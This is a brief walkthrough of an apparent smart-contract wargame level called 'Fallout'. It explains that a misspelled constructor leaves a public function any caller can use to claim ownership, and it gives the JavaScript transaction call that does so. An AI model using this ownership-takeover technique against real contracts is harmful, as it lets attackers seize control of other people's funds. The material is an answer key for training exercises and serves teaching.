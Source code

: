 # Fallout

**HINT:** Read the contract **CAREFULLY**
<details>
<summary>Answer</summary>
<p>

```js
await contract
```
Look at the abi and you'll see because the constructor is miss spelled in has become a normal function. Leaving the contract ownership up to anyone. 
<br></br>

Simply use: 
```js
await contract.Fal1out.sendTransaction({ from:player, value: '10000000000' })
```
You will then be the owner of the contract check with: 
```js
await contract.owner()<br></br>
```
Then click Submit
</details>